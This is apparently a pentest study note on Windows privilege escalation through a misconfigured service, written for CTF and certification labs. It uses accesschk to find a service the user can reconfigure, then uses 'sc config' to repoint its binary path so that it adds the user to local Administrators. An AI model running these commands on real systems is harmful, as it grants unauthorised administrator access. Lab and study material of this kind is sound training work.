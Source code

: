#Windows #PrivEsc #BinaryPaths #sc #Accesschk #PowerUp 
==common PrivEsc on CTFs/certificates!==
## **Detection**

Windows VM

1. Open command prompt and type: 
	`C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc Everyone *`
	`C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc`
		- Based on first result, we run it for `daclsvc`
		- We can also see this in `PowerUp.ps1` results
1. Notice that the output suggests that the user “`User-PC\User`” has the “`SERVICE_CHANGE_CONFIG`” permission.

## **Exploitation**

Windows VM

- Query service with: `sc qc daclsvc`
1. In command prompt type: `sc config daclsvc binpath= "net localgroup administrators user /add"`
2. In command prompt type: `sc start daclsvc`
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`
